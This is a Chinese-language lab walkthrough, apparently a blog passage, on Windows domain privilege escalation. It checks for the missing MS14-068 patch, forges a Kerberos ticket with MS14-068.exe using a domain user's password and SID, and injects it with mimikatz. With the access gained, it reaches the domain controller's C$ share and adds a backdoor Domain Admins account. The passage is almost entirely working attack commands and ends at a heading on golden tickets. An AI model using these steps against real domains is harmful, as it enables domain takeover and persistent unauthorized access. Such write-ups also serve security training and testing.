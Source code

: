 ![](http://upload-images.jianshu.io/upload_images/18786052-48236d2beb08e15f.png)

使用用户 devuser 登录到域内, whoami 查看下当前用户为 devuser：

![](http://upload-images.jianshu.io/upload_images/18786052-7920a7f235b1ad32.png)

这里利用 MS14-068 来提权, 先检查下是否有 MS14-068, CVE 编号 CVE-2014-6324, 补丁为 3011780 ： systeminfo |find "3011780", 如果返回为空就说明没有打补丁, 存在漏洞, 需要注意的是域内普通用户提权成功后是有时效性的。

![](http://upload-images.jianshu.io/upload_images/18786052-5713f07853c6eac2.png)

执行：dir \scene.cyberpeace.com\c$，提醒权限不够：

![](http://upload-images.jianshu.io/upload_images/18786052-5504eb68e2083fd7.png)

上传 mimikatz 和 MS14-068 提权工具，`whoami /user`或者`whoami/all`查看 devuser 用户的 suid：

![](http://upload-images.jianshu.io/upload_images/18786052-6fa3cfb0dda00350.png)

使用 MS14-068 伪造票据：  
执行命令：`C:\MS14-068>MS14-068.exe -u devuser@cyberpeace.com -p HOTdev123456 -s S-1-5-21-9 7341123-1865264218-933115267-1108 -d scene.cyberpeace.com`，会在当前目录下生成一个凭证。

使用方法：

```
ms14-068.exe -u 域成员名@域名 -p 域成员密码 -s 域成员sid -d 域控制器地址 


```

使用 mimikatz 清空之前缓存的凭证，导入伪造的凭证：

```
mimikatz # kerberos::purge  //清空票据
mimikatz # kerberos::ptc 票据文件地址


```

![](http://upload-images.jianshu.io/upload_images/18786052-d70ee6368fd9ec13.png)

再输入`dir \\scene.cyberpeace.com\c$`，发现访问成功，现在我们有域管的权限:

![](http://upload-images.jianshu.io/upload_images/18786052-f6dd34ea1b04da6e.png)

添加域管用户 aaa：

```
net user aaa Qwe123... /add /domain
net group "Domain Admins" aaa /add /domain


```

#### 二、伪造金票
